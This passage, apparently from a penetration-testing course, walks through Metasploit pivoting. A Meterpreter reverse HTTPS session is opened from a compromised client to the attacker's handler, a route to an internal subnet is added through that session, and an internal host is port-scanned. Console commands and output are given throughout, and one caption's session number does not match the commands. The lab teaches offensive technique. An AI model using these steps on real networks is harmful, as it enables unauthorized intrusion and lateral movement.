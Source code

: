 > Listing 74 - Dual interfaces on compromised client

Listing 74 shows that the second interface has the assigned IP 172.16.5.199. We can try to identify other live hosts on this second network by leveraging methods from active information gathering. Before we do so, let's start a Meterpreter shell on our compromised target by downloading and executing **met.exe** as well as starting the corresponding multi/handler as we did before.

```
[*] Started HTTPS reverse handler on https://192.168.119.4:443
...
[*] Meterpreter session 12 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-05 05:13:42 -0400

meterpreter >
```

> Listing 75 - Newly opened session via execution of met.exe

Now that we have a working session on the compromised system, we can background it. To add a route to a network reachable through a compromised host, we can use **route add** with the network information and session ID that the route applies to. After adding the route, we can display the current routes with **route print**.

```
meterpreter > bg
[*] Backgrounding session 12...

msf6 exploit(multi/handler) > route add 172.16.5.0/24 12
[*] Route added

msf6 exploit(multi/handler) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   172.16.5.0         255.255.255.0      Session 12

[*] There are currently no IPv6 routes defined.
```

> Listing 76 - Adding route to network 172.16.5.0/24 from session 2

With a path created to the internal network, we can enumerate this subnet. Now we could scan the whole network for live hosts with a port scan auxiliary module. Since this scan would take quite some time to complete, let's shorten this step by only scanning the other live host in the second network. Therefore, instead of setting the value of *RHOSTS* to *172.16.5.0/24* as we would do if we wanted to scan the whole network, we set it to 172.16.5.200. For now, we only want to scan ports 445 and 3389.

```
msf6 exploit(multi/handler) > use auxiliary/scanner/portscan/tcp 

msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.16.5.200
RHOSTS => 172.16.5.200

msf6 auxiliary(scanner/portscan/tcp) > set PORTS 445,3389
PORTS => 445,3389

msf6 auxiliary(scanner/portscan/tcp) > run

[+] 172.16.5.200:         - 172.16.5.200:445 - TCP OPEN
[+] 172.16.5.200:         - 172.16.5.200:3389 - TCP OPEN
[*] 172.16.5.200:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
